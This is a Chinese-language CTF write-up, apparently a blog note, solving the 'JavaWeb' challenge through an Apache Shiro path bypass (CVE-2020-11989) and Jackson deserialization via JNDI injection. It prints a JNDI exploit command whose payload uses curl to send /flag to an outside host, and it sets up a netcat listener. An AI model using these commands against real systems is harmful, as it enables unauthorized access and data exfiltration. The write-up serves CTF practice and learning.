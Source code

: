 ```yaml
---
title: '[红明谷CTF 2021]JavaWeb'
date: 2024-11-07 19:06:07
tags: 
      - Shiro漏洞
      - 漏洞
categories: 刷题笔记
---
```


### [红明谷CTF 2021]JavaWeb

原题目提示/login，那我们访问/login看看

![image-20241107192013992](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411071920111.png)

题目提示/json路径，那我们继续访问json

![image-20241107192147062](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411071921127.png)

我们发现页面重定向到了/login路径，我们考虑用post方法访问/login

![image-20241107192245184](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411071922234.png)

页面提示我们登陆失败，这表明在这里我们需要进行身份认证，

但在这里我们在cookie里发现有个rememberMe=deleteMe，很明显是个shiro框架，

在这里我们用到CVE-2020-11989 : Apache Shiro权限绕过

**访问`/;/login`时便可以绕过shiro认证查看需要登录认证的信息了(CVE-2020-11989 : Apache Shiro权限绕过)**

但在这里提示我们需要输入一个实体

![image-20241107193330381](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411071933441.png)

我们输入一个json数据 {username="admin",password="admin"} 后还是报错，

![image-20241107193447515](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411071934557.png)

一直修改数据格式都没有用,不过最后直接复制报错的message信息搜了一下, 发现是Jackson的问题, 也就是说用到了Jackson

猜测这里可能会存在反序列化漏洞。我们用JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar这个工具来进行反序列化漏洞利用，并将flag外带

使用命令如下

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C 'curl 60.204.158.87:39767 -File=@/flag' -A "60.204.158.87"

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C 'curl [VPS_IP:PORT] -file=@/flag' -A "[VPS_IP]"
```

如果运行报错，还要进行

![image-20241107210550999](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411072105089.png)

然后再target运行命令

![image-20241107211101207](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411072111269.png)

然后我们新建一个窗口，监听端口

```
nc -lnvp 9999
```

最后我们用CVE-2019-14439的链子打进去，用上面的springboot的payload

这一步我们用postman执行

```

```

![image-20241107211230559](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411072112599.png)

**最后**在监听的地方得到flag

![image-20241107211259685](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411072112720.png)

（我没弹出来哈，不知道为啥）

参考：https://juejin.cn/post/7106654301883219998

​          https://blog.csdn.net/Mrs_H/article/details/124035038

​		https://www.zhaoj.in/read-6859.html#WEB1_javaweb



### CVE-2020-11989

影响范围

- Apache Shiro < 1.5.3
- Spring 框架中只使用 Shiro 鉴权

可以使用/;/进行绕过

参考：https://mp.weixin.qq.com/s/yb6Tb7zSTKKmBlcNVz0MBA

 https://xlab.tencent.com/cn/2020/06/30/xlab-20-002/
